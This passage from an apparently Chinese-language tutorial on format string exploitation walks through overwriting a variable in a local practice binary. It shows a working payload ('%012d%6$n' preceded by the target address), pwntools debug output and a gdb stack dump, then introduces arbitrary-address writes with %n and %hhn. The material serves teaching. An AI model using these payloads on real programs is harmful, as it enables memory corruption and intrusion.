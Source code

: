 - 下方输出表明：payload控制`printf(s);`输出16 char，并且控制程序命中`if (c == 16)`，即将 c 的值覆盖为16

```bash
$ python overwrite.py  # 运行上述脚本后，终端的输出
[+] Starting local process './overwrite' argv=[b'./overwrite'] : pid 131771
[DEBUG] Received 0xb bytes:           b'0xffd582bc\n'   # printf("%p\n", &c);
0xffd582bc   # print(hex(c_addr)) c 的地址
b'\xbc\x82\xd5\xff%012d%6$n'  # [addr of c, %012d%6$n ] 
[*] running in new terminal: /usr/bin/gdb -q  "./overwrite" 131771
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./overwrite" 131771']
[+] Waiting for debugger: Done  # gdb.attach(sh)
[DEBUG] Sent 0xe bytes:  # sh.sendline(payload)
    00000000  bc 82 d5 ff  25 30 31 32  64 25 36 24  6e 0a        │····│%012│d%6$│n·│
    0000000e
[DEBUG] Received 0x1c bytes:  # sh.recv() # 第一行共16bytes 说明payload成功控制输出16个字符
    00000000  bc 82 d5 ff  2d 30 30 30  30 32 37 38  34 36 38 30  │····│-000│0278│4680│
    00000010  6d 6f 64 69  66 69 65 64  20 63 2e 0a               │modi│fied│ c.·│
    0000001c
b'\xbc\x82\xd5\xff-00002784680modified c.\n'  ......  # print(sh.recv())  # modified c 表明 c 已经被更改为 16
```

- `printf(s);` 时的栈：

```assembly
───────────── stack ────  # printf(s); 时的栈
0xffd5823c│+0x0000: 0x080484d7  →  <main+76> add esp, 0x10       ← $esp
0xffd58240│+0x0004: 0xffd58258  →  0xffd582bc  →  0x00000315 # 0xffd58258 addr of format string
0xffd58244│+0x0008: 0xffd58258  →  0xffd582bc  →  0x00000315 # 0xffd582bc 为 c 的地址
0xffd58248│+0x000c: 0xf7f07410  →  0x0804829c  →  "GLIBC_2.0"
0xffd5824c│+0x0010: 0x00000001
0xffd58250│+0x0014: 0x00000000
0xffd58254│+0x0018: 0x00000001
0xffd58258│+0x001c: 0xffd582bc  →  0x00000315 # 0xffd58258 为format string起始地址 0xffd582bc为c的地址 # 0x315=789 c的原始值 
────────────── trace ────
[#0] 0xf7d5b060 → __printf(format=0xffd58258 "\274\202\325\377%012d%6$n")
[#1] 0x80484d7 → main()
gef➤  hexdump byte 0xffd58258 32 # 以bytes显示格式化字符串所在地址存储的内容，展示32byte
0xffd58258     bc 82 d5 ff 25 30 31 32 64 25 36 24 6e 00 d5 ff    ....%012d%6$n...
0xffd58268     02 00 00 00 66 8d f2 f7 34 80 04 08 00 00 00 00    ....f...4.......
```

- `0xffd58258`为格式化字符串format string的首地址，`0xffd58258`上的前4byte又是变量c的地址`0xffd582bc``
- `%6$n`将输出的字符数(16)存储到format string的第6个参数(`0xffd58258`)所存的整型指针(c的地址`0xffd582bc`)上。效果：把c的值覆盖为16



##### 覆盖任意地址内存

> 修改 data 段的变量为：1. 一个小数字(小于机器字长的数字)；2. 一个大数字

- 这一节及下一节将要实现：
  1. 将全局变量 a 覆盖为2。利用payload `aa%k$nbb[addr]`
  2. 将全局变量 b 覆盖为 0x12345678。利用`%6$hhn`分多部分覆盖
